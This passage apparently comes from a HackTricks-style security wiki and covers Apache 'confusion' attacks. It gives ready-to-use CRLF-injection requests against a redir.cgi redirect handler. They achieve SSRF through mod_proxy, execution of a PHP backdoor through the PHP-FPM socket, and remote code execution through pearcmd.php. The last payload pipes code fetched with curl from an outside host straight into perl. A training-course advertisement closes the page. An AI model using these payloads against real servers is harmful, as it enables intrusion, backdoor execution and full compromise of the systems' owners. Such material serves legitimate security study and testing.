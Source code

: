 #### **Arbitrary Handler to Full SSRF**

Redirecting to `mod_proxy` to access any protocol on any URL:

```
http://server/cgi-bin/redir.cgi?r=http://%0d%0a
Location:/ooo %0d%0a
Content-Type:proxy:
http://example.com/%3F
 %0d%0a
%0d%0a
```

However, the `X-Forwarded-For` header is added preventing access to cloud metadata endpoints.

#### **Arbitrary Handler to Access Local Unix Domain Socket**

Access PHP-FPM’s local Unix Domain Socket to execute a PHP backdoor located in `/tmp/`:

```
http://server/cgi-bin/redir.cgi?r=http://%0d%0a
Location:/ooo %0d%0a
Content-Type:proxy:unix:/run/php/php-fpm.sock|fcgi://127.0.0.1/tmp/ooo.php %0d%0a
%0d%0a
```

#### **Arbitrary Handler to RCE**

The official [PHP Docker](https://hub.docker.com/\_/php) image includes PEAR (`Pearcmd.php`), a command-line PHP package management tool, which can be abused to obtain RCE:

```
http://server/cgi-bin/redir.cgi?r=http://%0d%0a
Location:/ooo? %2b run-tests %2b -ui %2b $(curl${IFS}
orange.tw/x|perl
) %2b alltests.php %0d%0a
Content-Type:proxy:unix:/run/php/php-fpm.sock|fcgi://127.0.0.1/usr/local/lib/php/pearcmd.php %0d%0a
%0d%0a
```

Check [**Docker PHP LFI Summary**](https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html#0x06-pearcmdphp), written by [Phith0n](https://x.com/phithon\_xg) for the details of this technique.

## References

* [https://blog.orange.tw/2024/08/confusion-attacks-en.html?m=1](https://blog.orange.tw/2024/08/confusion-attacks-en.html?m=1)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)


